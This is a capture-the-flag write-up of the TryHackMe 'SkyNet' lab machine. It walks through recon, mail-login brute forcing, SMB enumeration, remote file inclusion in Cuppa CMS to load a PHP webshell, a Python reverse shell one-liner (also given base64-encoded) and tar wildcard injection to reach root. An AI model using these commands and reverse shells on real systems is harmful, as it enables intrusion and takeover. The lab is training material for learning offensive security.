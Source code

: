 # SkyNet

## Recon

nmap revealed:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-29 03:49 UTC
Nmap scan report for ip-10-10-20-144.eu-west-1.compute.internal (10.10.20.144)
Host is up (0.00057s latency).
Not shown: 65529 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
MAC Address: 02:33:4B:B9:0C:CE (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.88 seconds
```

So, a website, a mail server and samba shares.

`dirb` on the website revealed a mail application, SquirrelMail, under `/squirrelmail`. The login page looked simple enough, but I needed a username and password.

`enum4linux` on the smb share revealed a username `milesdyson` and two shares: `/anonymous` and a restricted `/milesdyson`

## Hydra

Initially I tried `hydra`'ing the squirrel login using `milesdyson` and `rockyou.txt`. While that was running, I connected to the anonymous share and poked about. Apart from a huge and funny collection of machine learning books, there was a note saying all passwords had been reset, and three log files, of which only the first (`log1.txt`) had any content.

The log file contained a list of permutations on the word 'terminator'. On a whim, since `rockyou` wasn't getting me anywhere, I tried using the log file as a password source instead. The first entry `cyborg007haloterminator` worked :)

## Mail server, authed smb and hidden CMS

After logging in to squirrelmail, I found an email that contained a new SMB password:

```
Subject:   	Samba Password reset
From:   	skynet@skynet
Date:   	Tue, September 17, 2019 10:10 pm
Priority:   	Normal
Options:   	View Full Header |  View Printable Version  | Download this as a file

We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

I promptly used this with `smbclient -U milesdyson` to access the restricted share. In there, a level or two deep and buried in a huge set of markdown files I found a text file called `important.txt`

Inside this was a list of tasks:

```

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

I browsed to that path and found a hidden page on the main site. A `dirb` on the page revealed `/45kra24zxs28v3yd/administrator`, which when browsed to, revealed itself as 'Cuppa CMS'.

## Remote file inclusion and shell

Cuppa is vulnerable to remote file inclusion, even unauthenticated, as described here on exploit-db: https://www.exploit-db.com/exploits/25971

I tested this with `/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd` and successfully got the contents of the local `passwd` file, all to the good. 

Next I quickly grabbed the user flag, guessing it would be as it is on most TryHackMe VMs: `/home/milesdyson/user.txt`. Success!

The exploit would include anything, even a url, so I downloaded a simple request CMD php shell from github, spun up a `python3 -m http.server`, and then tested command execution: `http://10.10.20.144/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?cmd=whoami&urlConfig=http://10.10.151.47:8000/easy-simple-php-webshell.php` (note the `cmd` param before the `urlConfig`). That magic `www-data` showed up.

The next step was to get a reverse shell. I like to use this python one liner, when I find `nc -e` doesn't work:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.151.47",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

To get it working with the exploit, I url-encoded the above using Burp, then I stuck it into the url cmd parameter while I had a netcat listener running. Boom! Into the system.

## cronjobs and admin

First I fixed up the shell with the standard python tty: `python -c "import pty; pty.spawn('/bin/bash')"`. Then I tried `sudo -l` but it required the www-data password. Next step was to browse about and see what I could see.

In `/home/milesdyson` there were a few funny things, including `.bash_history` symlinked to `/dev/null` (a way of obliterating any tracks? Must remember that...). More interesting was a folder owned by root called 'backups'. In there were two files: a `backup.tgz` file, and a `backup.sh`. I smelled a cron job.

Sure enough, `cat /etc/crontab` revealed that root called that backup script every minute. The contents of `backup.sh` was:

```
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

I couldn't append to the file, as I didn't have access to the folder. However, I *did* have access, write access, to `/var/www/html` as `www-data`.

But what could I do? I can't change root's `PATH`, so can't make them run something other than cd or tar. The `tar cf` had to be the key though, and so I looked about online. 

Sure enough, there is unexpected behaviour when using a wildcard with tar. Specifically, if files in the target directory are ALSO valid tar arguments, they get interpreted as such. I picked this up from this newsblog: https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/

Going to `/var/www/html`, I created three files:

```
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=sh\ shell.sh
```

and then finally:

```
echo cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTUxLjQ3Iiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItaSJdKTsn | base64 -d > shell.sh
```

This last takes a base 64 encoded python reverse shell one liner (as used before, above) and decodes it into a file.

Setting up a nc reverse listener, within a minute I had the magic pop of a root shell and got the final flag from /root :)
